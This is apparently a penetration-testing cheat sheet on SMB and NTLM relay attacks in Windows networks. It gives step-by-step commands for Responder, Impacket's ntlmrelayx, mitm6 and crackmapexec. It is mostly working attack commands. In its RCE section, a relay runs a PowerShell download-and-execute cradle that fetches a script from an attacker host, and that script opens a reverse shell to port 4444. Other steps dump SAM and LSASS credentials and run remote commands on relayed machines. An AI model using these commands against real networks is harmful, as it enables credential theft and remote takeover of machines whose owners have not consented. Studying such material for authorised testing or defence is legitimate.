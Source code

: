 SMB Relay is an attack that abuses the **Server Message Block (SMB)** protocol, which is commonly used in Windows networks to share files, printers, and other resources.

The attacker takes advantage of the way SMB authentication works.  
Instead of stealing a password, the attacker **impersonates the legitimate SMB server** and then **relays** the victim’s authentication attempt to a real server to gain access.

## Key Concepts

1. **SMB (Server Message Block) Protocol**:
    
    - A network protocol used for sharing files, printers, and serial ports.
    - Operates over TCP/IP using ports 139 and 445.
2. **NTLM (NT LAN Manager) Authentication**:
    
    - A suite of Microsoft security protocols intended to provide authentication, integrity, and confidentiality to users.
    - SMB often uses NTLM for authentication.
3. **Relay Attack**:
    
    - An attacker intercepts the authentication process.
    - Instead of cracking the intercepted credentials, the attacker relays them to another server to authenticate.

## Basic Attack Process

1. **Configuring Responder**:

- Modify the `Responder.conf` configuration file to enable or disable specific protocols. For SMB relay, ensure that SMB and HTTP are set to `On` and that `HTTP Server` is also enabled.
```bash
sudo nano /etc/responder/Responder.conf
```
- Responder is a tool used to capture SMB/NTLM authentication attempts from victims. It works by spoofing services like SMB, DNS, and HTTP to trick devices into sending authentication requests to the attacker.

```bash
sudo responder -I eth0 
```


2. **Setting Up SMB Relay with Impacket**:
- Create a `targets.txt` file that contains the IP addresses of the target servers you want to relay the credentials to. You can identify the hosts with SMB enabled using:
```bash
nxc smb 192.168.1.0/24
```
- While the Responder is active use Impacket's **ntlmrelayx.py** script to relay the captured credentials to another target server.
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```
3. **Gaining access**:
Perform post-authentication actions:

- Dump sensitive information (e.g., SAM database, LSASS memory).
- Execute commands remotely.
- Create a reverse shell.
```bash
sudo impacket-ntlmrelayx -tf targets.txt --dump
sudo impacket-ntlmrelayx -tf targets.txt -c "whoami"
```

## RCE Attack Process
- Copy the PowerShell Invoke-PowershellTCP.ps1 script and open it for editing. 
```bash
cp Invoke-PowershellTCP.ps1 PS.ps1
nano PS.ps1
```
- Add the following line at the end of the file:
```bash
Invoke-PowershellTCP -reverse -IPAddress <attacker_ip> -Port 4444
```
- Start a Python HTTP server and a listener:
```bash
pyhton3 -m http.server 80
nc -lvnp 4444
```
- Run the responder service to capture authentication attempts 
```bash
sudo responder -I eth0 
```
- Execute the NTLMRelay inducing to fetch and execute the hosted script.
```bash
sudo impacket-ntlmrelayx -tf targets.txt -c "powershell IEX(New-Object Net.WebClient).downloadString('http://<attacker_ip>:80/PS.ps1')"
```
## IPv6 SMB Relaying Attack Process
IPv6 relaying leverages the fact that many modern networks have IPv6 enabled by default, even if administrators primarily use IPv4. Attackers exploit IPv6 name resolution to trick clients into authenticating against a rogue server controlled by the attacker, allowing NTLM credentials to be captured and relayed.

1. **Start mitm6:**

```bash
mitm6 -d <domain>
```

- This announces fake IPv6 RAs and provides a rogue DNS server.
- All domain-joined Windows clients will attempt to resolve domain resources via the attacker.

2. **Capture NTLM Authentication:**

- When a client attempts to access any SMB or HTTP resource in the domain, it authenticates using NTLMv2.
- The authentication request is sent to the attacker instead of the legitimate server.

2. **Relay with NTLMRelayx:**

- Relay these IPv6-captured NTLM credentials to a target system:
```bash
sudo ntlmrelayx.py -6 -tf targets.txt -socks -debug -smb2support
```

- The `-6` flag ensures the relay works over IPv6.
- `-smb2support` is crucial as modern Windows systems often enforce SMB2/3.
- `-socks` allows connecting through a SOCKS proxy to interact with the compromised account.

4. **Connecting to the Relayed Account:**

Once a relay has been successfully established, you can access the account using a **SOCKS proxy**:

```bash
proxychains crackmapexec smb <target-ip> -u <user> -p <anypassword> -d <domain>
```

---


## NTLMRelayx.py

**ntlmrelayx.py** is a powerful tool from the Impacket toolkit used for relaying captured NTLM authentication attempts to other network services. It is particularly effective in Windows Active Directory (AD) environments, allowing attackers to gain unauthorized access to network resources by relaying credentials.

#### Configuring Target List:

- Create a `targets.txt` file with the IP addresses or hostnames of the target AD servers you want to relay the captured credentials to.
```bash
192.168.1.10 
192.168.1.11
```

#### Starting NTLMRelayx.py:

- Use NTLMRelayx.py to relay captured NTLM authentication attempts to the targets listed in `targets.txt`.
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
- Also, NTLMRelayx.py can be configured to execute a certain command of our election after pawning one of the target hosts. 
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "<command>"
```


